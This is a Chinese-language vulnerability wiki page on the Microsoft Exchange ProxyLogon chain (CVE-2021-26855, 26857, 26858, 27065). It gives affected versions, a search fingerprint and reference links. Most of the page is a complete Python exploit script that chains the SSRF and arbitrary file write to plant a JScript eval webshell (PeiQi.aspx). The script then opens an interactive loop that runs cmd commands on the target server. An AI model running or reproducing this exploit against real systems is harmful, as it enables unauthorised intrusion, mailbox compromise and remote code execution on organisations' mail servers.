


# Microsoft Exchange 远程命令执行 CVE-2021-27065 26857 26858

## 漏洞描述

Microsoft Exchange Server 是个消息与协作系统。Exchange Server可以被用来构架应用于企业、学校的邮件系统或免费邮件系统。2021年03月03日微软官方披露多个Exchange高危漏洞：

```
CVE-2021-26855
Exchange服务器端请求伪造漏洞。利用此漏洞的攻击者能够以Exchange Server发送HTTP请求，扫描内网，获取Exchange用户信息。
```

```
CVE-2021-26857
Exchange反序列化漏洞。该漏洞需要管理员权限，攻击者通过构造恶意请求，触发反序列化漏洞，在服务器上执行恶意代码。
```

```
CVE-2021-26858/CVE-2021-27065
Exchange中身份验证后的任意文件写入漏洞。攻击者可以通过CVE-2021-26855的ssrf漏洞获取到的Exchange administrator凭证，构造恶意请求，在系统上写入任意文件。
```

## 漏洞影响

```
Exchange 2013 Versions < 15.00.1497.012 
Exchange 2016 CU18 < 15.01.2106.013
Exchange 2016 CU19 < 15.01.2176.009
Exchange 2019 CU7 < 15.02.0721.013
Exchange 2019 CU8 < 15.02.0792.010
```

## 网络测绘

```
icon_hash="1768726119"
```

## 漏洞复现

4篇关于原理的参考阅读：

https://www.praetorian.com/blog/reproducing-proxylogon-exploit/

https://www.crowdstrike.com/blog/falcon-complete-stops-microsoft-exchange-server-zero-day-exploits/

https://www.volexity.com/blog/2021/03/02/active-exploitation-of-microsoft-exchange-zero-day-vulnerabilities/

https://www.microsoft.com/security/blog/2021/03/02/hafnium-targeting-exchange-servers/

- 其中一次攻击中的日志


可以看到首先请求了 **/rpc/**  这个目录

根据网上公布的 POC与EXP，可以看到 NTML协商消息会返回我们NTML询问信息， 其中包含了 AV_PAIR结构，其中包含了 后端服务器名称与域名


base64解密其中的加密部分



再通过解包的方法转换其中的数据就可以得到完整的后端服务器名称与域名



后面的大家就参考阅读和EXP来研究原理吧，几篇文章和EXP已经很完整了

## 漏洞POC

EXP根据推特和Github几个脚本更改

默认打的邮箱为 [administrator@xxx.xxx.cn](mailto:administrator@xxx.xxx.cn)(可以自行更改)

webshell路径和脚本文件中更改

运行的命令是 ping Dnslog证明漏洞存在(一些东西就大家自己看看脚本改吧~)


```python
#!/usr/bin/python2
# coding: UTF-8

import re
import sys
import json
import string
import requests
from urllib import urlencode
from tld import get_fld
from struct import unpack
from base64 import b64encode, b64decode
from requests.packages.urllib3.exceptions import InsecureRequestWarning


def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
    print('+  \033[34m公众号 : PeiQi文库                                                \033[0m')
    print('+  \033[34mVersion: Microsoft Exchang 多个版本                                \033[0m')
    print('+  \033[36m使用格式:  python poc.py                                           \033[0m')
    print('+  \033[36mUrl         >>> mail.xxx.org                                       \033[0m')
    print('+  \033[36mEmail       >>> Administrator@根域名  (默认)                        \033[0m')
    print('+------------------------------------------')


def _unpack_str(byte_string):
    return byte_string.decode('UTF-8').replace('\x00', '')


def _unpack_int(format, data):
    return unpack(format, data)[0]


def parse_challenge(Negotiate_base64_decode):
    target_info_field = Negotiate_base64_decode[40:48]
    target_info_len = _unpack_int('H', target_info_field[0:2])
    target_info_offset = _unpack_int('I', target_info_field[4:8])

    target_info_bytes = Negotiate_base64_decode[target_info_offset:target_info_offset + target_info_len]

    domain_name = ''
    computer_name = ''
    info_offset = 0
    while info_offset < len(target_info_bytes):
        av_id = _unpack_int('H', target_info_bytes[info_offset:info_offset + 2])
        av_len = _unpack_int('H', target_info_bytes[info_offset + 2:info_offset + 4])
        av_value = target_info_bytes[info_offset + 4:info_offset + 4 + av_len]

        info_offset = info_offset + 4 + av_len
        if av_id == 2:  # MsvAvDnsDomainName
            domain_name = _unpack_str(av_value)
        elif av_id == 3:  # MsvAvDnsComputerName
            computer_name = _unpack_str(av_value)

    if domain_name and computer_name:
        return domain_name, computer_name
    else:
        print("\033[31m[x] 计算机名称或域名称获取失败")
        sys.exit(0)


def POC_1(target_url, Email):
    print("\033[32m[o] 正在获取 计算机名称和域名称.....\033[0m")
    ntlm_type1 = (
        'NTLMSSP\x00'  # NTLMSSp签名
        '\x01\x00\x00\x00'  # 信息类型
        '\x97\x82\x08\xe2'  # 标记
        '\x00\x00\x00\x00\x00\x00\x00\x00'  # 域名称字符
        '\x00\x00\x00\x00\x00\x00\x00\x00'  # 工作字符
        '\x0a\x00\xba\x47\x00\x00\x00\x0f'  # 系统版本
    )
    headers = {
        'Authorization': 'Negotiate {}'.format(b64encode(ntlm_type1))
    }
    basic_url = 'https://{}/rpc/'.format(target_url)
    requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
    response = requests.get(url=basic_url, headers=headers, verify=False)
    if response.status_code == 401:
        Negotiate_base64_encode = response.headers['WWW-Authenticate']
        Negotiate_base64_decode = re.search('Negotiate ([A-Za-z0-9/+=]+)', Negotiate_base64_encode).group(1)
        domain_name, computer_name = parse_challenge(b64decode(Negotiate_base64_decode))
        print("\033[32m[o] 计算机名称: {}\033[0m".format(computer_name))
        print("\033[32m[o] 域名称:    {}\033[0m".format(domain_name))
        POC_2(target_url, Email, computer_name)
    else:
        print("\033[31m[x] 获取失败")
        sys.exit(0)


def POC_2(target_url, Email, computer_name):
    payload = '''
<Autodiscover xmlns="http://schemas.microsoft.com/exchange/autodiscover/outlook/requestschema/2006">
    <Request>
         <EMailAddress>%s</EMailAddress>
        <AcceptableResponseSchema>http://schemas.microsoft.com/exchange/autodiscover/outlook/responseschema/2006a</AcceptableResponseSchema>
    </Request>
</Autodiscover>
    ''' % Email
    vuln_url = '/autodiscover/autodiscover.xml'
    headers = {
        'User-Agent': 'ExchangeServicesClient/0.0.0.0',
        'Content-Type': 'text/xml',
        'Cookie': 'X-BEResource=a]@{}:444{}?#~1941962753'.format(computer_name, vuln_url),
        'msExchLogonMailbox': 'S-1-5-20'
    }
    url = "https://{}/ecp/PeiQi.js".format(target_url)
    requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
    response = requests.post(url, headers=headers, data=payload, verify=False, allow_redirects=False)
    LegacyDN = re.findall(r'<LegacyDN>(.*?)</LegacyDN>', response.text)[0]
    print("\033[32m[o] LegacyDN: {}\033[0m".format(LegacyDN))

    vuln_url = '/mapi/emsmdb/'
    headers = {
        'X-Clientapplication': 'Outlook/15.0.4815.1002',
        'X-Requestid': 'x',
        'X-Requesttype': 'Connect',
        'Cookie': 'X-BEResource=a]@{}:444{}?#~1941962753'.format(computer_name, vuln_url),
        'Content-Type': 'application/mapi-http',
        'msExchLogonMailbox': 'S-1-5-20',
    }
    payload = LegacyDN + '\x00\x00\x00\x00\x00\x20\x04\x00\x00\x09\x04\x00\x00\x09\x04\x00\x00\x00\x00\x00\x00'
    url = "https://{}/ecp/PeiQi.js".format(target_url)
    requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
    response = requests.post(url, headers=headers, data=payload, verify=False, allow_redirects=False)
    SID = re.search('with SID ([S\-0-9]+) ', response.content).group(1)
    print("\033[32m[o] SID: {}\033[0m".format(SID))

    vuln_url = '/ecp/proxyLogon.ecp'
    payload = '<r at="NTLM" ln="%s"><s t="0">%s</s></r>' % (Email.split('@')[0], SID)
    headers = {
        'X-Clientapplication': 'Outlook/15.0.4815.1002',
        'X-Requestid': 'x',
        'X-Requesttype': 'Connect',
        'Cookie': 'X-BEResource=a]@{}:444{}?#~1941962753'.format(computer_name, vuln_url),
        'Content-Type': 'application/json',
        'msExchLogonMailbox': 'S-1-5-20',
    }
    url = "https://{}/ecp/PeiQi.js".format(target_url)
    requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
    response = requests.post(url, headers=headers, data=payload, verify=False, allow_redirects=False)
    session_id = response.cookies.get('ASP.NET_SessionId')
    canary = response.cookies.get('msExchEcpCanary')
    print("\033[32m[o] Session_id: {}\033[0m".format(session_id))
    print("\033[32m[o] Canary    : {}\033[0m".format(canary))

    extra_cookies = [
        'ASP.NET_SessionId=' + session_id,
        'msExchEcpCanary=' + canary
    ]
    vuln_url = '/ecp/DDI/DDIService.svc/GetObject'
    qs = urlencode({
        'schema': 'OABVirtualDirectory',
        'msExchEcpCanary': canary
    })
    headers = {
        'X-Clientapplication': 'Outlook/15.0.4815.1002',
        'X-Requestid': 'x',
        'X-Requesttype': 'Connect',
        'Cookie': 'X-BEResource=a]@{}:444{}?{}#~1941962753;ASP.NET_SessionId={};msExchEcpCanary={}'.format(
            computer_name, vuln_url, qs, session_id, canary),
        'Content-Type': 'application/json',
        'msExchLogonMailbox': 'S-1-5-20',
    }
    url = "https://{}/ecp/PeiQi.js".format(target_url)
    requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
    response = requests.post(url, headers=headers, data='', verify=False, allow_redirects=False)
    identity = response.json()['d']['Output'][0]['Identity']
    print("\033[32m[o] OAB Name: {}\033[0m".format(identity['DisplayName']))
    print("\033[32m[o] OAB ID: {}\033[0m".format(identity['RawIdentity']))

    FILE_PATH = 'C:\\inetpub\\wwwroot\\aspnet_client\\PeiQi.aspx'
    FILE_DATA = '<script language="JScript" runat="server">function Page_Load(){eval(Request["PeiQi"],"unsafe");}</script>'

    vuln_url = '/ecp/DDI/DDIService.svc/SetObject'
    qs = urlencode({
        'schema': 'OABVirtualDirectory',
        'msExchEcpCanary': canary
    })
    payload = json.dumps({
        'identity': {
            '__type': 'Identity:ECP',
            'DisplayName': identity['DisplayName'],
            'RawIdentity': identity['RawIdentity']
        },
        'properties': {
            'Parameters': {
                '__type': 'JsonDictionaryOfanyType:#Microsoft.Exchange.Management.ControlPanel',
                'ExternalUrl': 'http://f/' + FILE_DATA
            }
        }
    })
    headers = {
        'X-Clientapplication': 'Outlook/15.0.4815.1002',
        'X-Requestid': 'x',
        'X-Requesttype': 'Connect',
        'Cookie': 'X-BEResource=a]@{}:444{}?{}#~1941962753;ASP.NET_SessionId={};msExchEcpCanary={}'.format(
            computer_name, vuln_url, qs, session_id, canary),
        'Content-Type': 'application/json',
        'msExchLogonMailbox': 'S-1-5-20',
    }
    url = "https://{}/ecp/PeiQi.js".format(target_url)
    requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
    response = requests.post(url, headers=headers, data=payload, verify=False, allow_redirects=False)
    if response.status_code == 200:
        print("\033[32m[o] 通过OAB设置Webshell成功\033[0m")

    vuln_url = "/ecp/DDI/DDIService.svc/SetObject"
    qs = urlencode({
        'schema': 'ResetOABVirtualDirectory',
        'msExchEcpCanary': canary
    })
    payload = json.dumps({
        'identity': {
            '__type': 'Identity:ECP',
            'DisplayName': identity['DisplayName'],
            'RawIdentity': identity['RawIdentity']
        },
        'properties': {
            'Parameters': {
                '__type': 'JsonDictionaryOfanyType:#Microsoft.Exchange.Management.ControlPanel',
                'FilePathName': FILE_PATH
            }
        }
    })
    headers = {
        'X-Clientapplication': 'Outlook/15.0.4815.1002',
        'X-Requestid': 'x',
        'X-Requesttype': 'Connect',
        'Cookie': 'X-BEResource=a]@{}:444{}?{}#~1941962753;ASP.NET_SessionId={};msExchEcpCanary={}'.format(
            computer_name, vuln_url, qs, session_id, canary),
        'Content-Type': 'application/json',
        'msExchLogonMailbox': 'S-1-5-20',
    }
    url = "https://{}/ecp/PeiQi.js".format(target_url)
    requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
    response = requests.post(url, headers=headers, data=payload, verify=False, allow_redirects=False)
    if response.status_code == 200:
        print("\033[32m[o] 正在尝试写入Webshell\033[0m")

    vuln_url = "/ecp/DDI/DDIService.svc/SetObject"
    qs = urlencode({
        'schema': 'OABVirtualDirectory',
        'msExchEcpCanary': canary
    })
    payload = json.dumps({
        'identity': {
            '__type': 'Identity:ECP',
            'DisplayName': identity['DisplayName'],
            'RawIdentity': identity['RawIdentity']
        },
        'properties': {
            'Parameters': {
                '__type': 'JsonDictionaryOfanyType:#Microsoft.Exchange.Management.ControlPanel',
                'ExternalUrl': ''
            }
        }
    })
    headers = {
        'X-Clientapplication': 'Outlook/15.0.4815.1002',
        'X-Requestid': 'x',
        'X-Requesttype': 'Connect',
        'Cookie': 'X-BEResource=a]@{}:444{}?{}#~1941962753;ASP.NET_SessionId={};msExchEcpCanary={}'.format(
            computer_name, vuln_url, qs, session_id, canary),
        'Content-Type': 'application/json',
        'msExchLogonMailbox': 'S-1-5-20',
    }
    url = "https://{}/ecp/PeiQi.js".format(target_url)
    requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
    response = requests.post(url, headers=headers, data=payload, verify=False, allow_redirects=False)
    print("\033[32m[o] 清除 OAB\033[0m")
    print("\033[32m[o] 正在验证 Webshell是否上传成功..........\033[0m")
    webshell_url = "https://" + target_url + "/aspnet_client/PeiQi.aspx"
    requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
    response = requests.get(url=webshell_url, verify=False, allow_redirects=False)
    if response.status_code == 200 and "Name" in response.text:
        print("\033[32m[o] 上传 Webshll成功, 地址为:{}\033[0m".format("https://" + target_url + "/aspnet_client/PeiQi.aspx"))
        print("\033[32m[o] 响应为:\n{}\033[0m".format(response.text))
        while True:
            Cmd = str(raw_input("\033[35mCmd >>> \033[0m"))
            requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
            Cmd_url = "https://" + target_url + '/aspnet_client/PeiQi.aspx?PeiQi=Response.Write(new%20ActiveXObject("WScript.Shell").exec("cmd /c {}").StdOut.ReadAll());'.format(Cmd)
            response = requests.get(url=Cmd_url, verify=False, allow_redirects=False)
            print("\033[32m[o] 响应为:\n{}\033[0m".format(response.text))


if __name__ == '__main__':
    reload(sys)  
    sys.setdefaultencoding('utf8')  
    title()
    target_url = str(raw_input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
    Email = "Administrator@{}".format(get_fld("https://" + target_url))
    print("\033[32m[o] 请求地址:{}，使用的邮箱:{}\033[0m".format(target_url, Email))
    POC_1(target_url, Email)
```